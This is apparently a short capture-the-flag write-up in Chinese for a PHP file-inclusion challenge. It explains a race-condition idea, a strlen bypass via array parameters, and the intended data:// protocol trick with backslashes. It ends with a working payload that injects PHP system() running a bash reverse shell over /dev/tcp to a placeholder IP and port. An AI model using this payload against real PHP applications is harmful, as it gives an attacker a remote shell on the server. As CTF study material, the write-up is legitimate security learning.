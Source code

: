 # Solve
這題目經過大神提點，有說到可以利用 race condition，可以利用兩個 thread，一個去寫正常的值，一個去寫 reverse shell，在 include 時如果可以透過另一個 thread 去改檔案內的值。
而 strlen 可以透過 `i[ ]` 繞過
程式碼看 solve.py
之後跑去私訊 kaibro，他說正規解是透過`data: protocol`，因此透過 `data://` 但不知為何，把`/`改成`\`就能過了，猜測是 php 對 `/`和`\`不敏感
解：
```
f = data:\\text\plain;mydir
i = data:\\text\plain;mydir/meow
c[] = <?php system("bash -c 'bash -i >%26/dev/tcp/<ip>/<port> 0>%261' "); ?>
```
